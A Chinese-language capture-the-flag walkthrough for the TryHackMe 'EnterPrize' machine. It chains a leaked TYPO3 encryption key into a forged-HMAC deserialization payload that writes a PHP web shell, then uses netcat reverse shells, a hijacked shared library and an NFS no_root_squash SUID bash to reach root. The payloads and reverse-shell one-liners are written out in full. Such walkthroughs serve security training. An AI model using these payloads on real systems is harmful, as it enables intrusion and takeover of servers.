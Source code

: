# EnterPrize

---

## 端口扫描

循例nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/01684e3d6df54de7b018f53a3e5e6f15.png)

## Web枚举

进到enterprize.thm

![在这里插入图片描述](https://img-blog.csdnimg.cn/9679224caf9e46de8979ff0f50ba9afb.png)

gobuster扫

![在这里插入图片描述](https://img-blog.csdnimg.cn/ee0c83875f054bfa8cb511ab0080ce00.png)

到处扫了一段时间，ffuf扫vhost扫到个maintest

![在这里插入图片描述](https://img-blog.csdnimg.cn/778b3a724bbe4359b3259d83a264919a.png)

进到maintest，是typo3

![在这里插入图片描述](https://img-blog.csdnimg.cn/1a216f90536d476381da33529bfaef74.png)

/typo3conf下有些文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/0d75c9e829a4440190a306188769b912.png)

在LocalConfiguration.old有一个key，它应该就是提示当中所说的

![在这里插入图片描述](https://img-blog.csdnimg.cn/a696e245437945f295bcc3a69db99a3f.png)

在谷歌找到一篇有关typo3 encryptionkey到RCE的[文章](https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution.html#:~:text=This%20encryptionKey%20can%20be%20found%20in%20the%20typo3conf%2FLocalConfiguration.php,%24localConfigurationArray%20%5B%20%27SYS%27%20%5D%20%5B%20%27encryptionKey%27%5D%20%3D%20%24randomKey%3B)

值得关注的是这段代码

```php
    /**
     * Initializes the current state of the form, based on the request
     * @throws BadRequestException
     */
    protected function initializeFormStateFromRequest()
    {
        $serializedFormStateWithHmac = $this->request->getInternalArgument('__state');
        if ($serializedFormStateWithHmac === null) {
            $this->formState = GeneralUtility::makeInstance(FormState::class);
        } else {
            try {
                $serializedFormState = $this->hashService->validateAndStripHmac($serializedFormStateWithHmac);
            } catch (InvalidHashException | InvalidArgumentForHashGenerationException $e) {
                throw new BadRequestException('The HMAC of the form could not be validated.', 1581862823);
            }
            $this->formState = unserialize(base64_decode($serializedFormState));
        }
    }
```

encryptionkey用于计算HMAC，而一旦我们利用有效的HMAC将能构造反序列进行RCE

```bash
echo '<?php system($_GET[1]);?>' > ./exp.php
```

这里不能有双引号，否则可能会破坏后面序列化的payload

使用phpggc生成序列化payload

**注意路径，typo3在public下**

![在这里插入图片描述](https://img-blog.csdnimg.cn/82db7e315d3e4c668535935fef0308f8.png)

```json
a:2:{i:7;O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:36:"GuzzleHttp\Cookie\CookieJarcookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"GuzzleHttp\Cookie\SetCookiedata";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:26:"<?php system($_GET[1]);?>
";}}}s:39:"GuzzleHttp\Cookie\CookieJarstrictMode";N;s:41:"GuzzleHttp\Cookie\FileCookieJarfilename";s:50:"/var/www/html/public/fileadmin/_temp_/backdoor.php";s:52:"GuzzleHttp\Cookie\FileCookieJarstoreSessionCookies";b:1;}i:7;i:7;}
```

使用php进行hmac加密

```php
<?php
$secrt = hash_hmac('sha1', '<payload>', "<encryptkey>");
print($secrt);
?>
```

我们利用contact form表单交付payload

![在这里插入图片描述](https://img-blog.csdnimg.cn/b900eee9a2e4436f81c8d398898813ce.png)

burp修改__state

![在这里插入图片描述](https://img-blog.csdnimg.cn/1b55323b3acd40e9ad361106a6112208.png)

访问文件，成功RCE

![在这里插入图片描述](https://img-blog.csdnimg.cn/d06f33ba5c7d4d73bcd42207144e21f6.png)

### Reverse Shell

用curl把nc传过去

![在这里插入图片描述](https://img-blog.csdnimg.cn/fc377d4613324c809859a0f812721561.png)

reverse shell payload

```bash
mkfifo /tmp/f1;/tmp/nc 10.14.39.48 8888 < /tmp/f1 | /bin/bash > /tmp/f1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/dbfeaee894174a93ad7476505cf01549.png)

getshell

## 横向移动

在john家目录下发现develop

![在这里插入图片描述](https://img-blog.csdnimg.cn/961905590db5463aa4036adb1274cf96.png)

传个pspy64过去看一眼, 在定时执行myapp

![在这里插入图片描述](https://img-blog.csdnimg.cn/2797c97d68574d878fb3711a1fa8a376.png)

通过ldd查看，发现了一个john自定义的so文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/7fbf769956634244b549100f49cae382.png)

查看/etc/ld.so.conf，这里记录了动态链接库的路径，这里又指向了/etc/ld.so.conf.d下的所有conf文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/0179b32f7395497c8f0f34c0bbc08220.png)

有趣的是其中一个文件连接到/home/john/develop的test.conf，而我们有权写入develop文件夹

现在的思路就是通过创建test.conf指向我们自己创建的恶意so文件，让myapp加载从而移动到john

创建test.conf

![在这里插入图片描述](https://img-blog.csdnimg.cn/ec3983106de54d0abeeb37f8b3dd6799.png)

创建c文件

```c
#include <stdio.h>
#include <unistd.h>

__attribute__ ((__constructor__)) void hack (void){
    system("mkfifo /tmp/f3;/tmp/nc 10.14.39.48 9999 < /tmp/f3 | /bin/bash > /tmp/f3");
}
```

编译，通过wget传过去

![在这里插入图片描述](https://img-blog.csdnimg.cn/9156fcdcb6b44b0f8e8482c007204ef3.png)

此时再看ldd，libcustom.so已被劫持，libcustom.so已经指向我们创建的so文件了

![在这里插入图片描述](https://img-blog.csdnimg.cn/24e3e6d8ae424436abc46a42500601a2.png)

我折腾了几个小时，我发现cronjob执行了代码，但似乎执行失败了，我找不到原因，我也尝试了更换payload，但依旧是失败，即使pspy捕获到了它执行了命令，但并不成功

但我手动执行myapp是能够正常执行的，这也意味着我的payload没有任何问题，是房间可能存在问题导致的

**这里我直接打了个pwnkit过去直接到了root**

但为了体验房间内容，在john下创建ssh key，直接进到john

user flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/7f100761f8314b30b526b35120c19ff5.png)


## 权限提升


ss -tlnp发现开了应该是nfs

![在这里插入图片描述](https://img-blog.csdnimg.cn/c7574efc7cfa4333bf82918faa0e7639.png)

/var/nfs的共享被设置了no_root_squash

![在这里插入图片描述](https://img-blog.csdnimg.cn/2cce0335a9b646638b883e3e9d1df06d.png)

由于防火墙的存在，我们通过ssh进行端口转发

![在这里插入图片描述](https://img-blog.csdnimg.cn/d73ea4a41b244454bffd13fc007a12d0.png)

挂载

![在这里插入图片描述](https://img-blog.csdnimg.cn/56f291312ded494f9f1080e51fce5676.png)

从靶机中复制其bash过来

![在这里插入图片描述](https://img-blog.csdnimg.cn/82a02cfe47e1409c958dd409f3db37ef.png)

在攻击机中重新复制靶机的bash，并为其赋suid

这里重新复制一遍是为了改变文件的所有者为root，否则suid不是root那就没用了

![在这里插入图片描述](https://img-blog.csdnimg.cn/767a30f7c4e147dc952bed8f5a1c18de.png)

直接利用suid bash到root，拿到root flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/7f99e608661645848f95da90a05e0485.png)
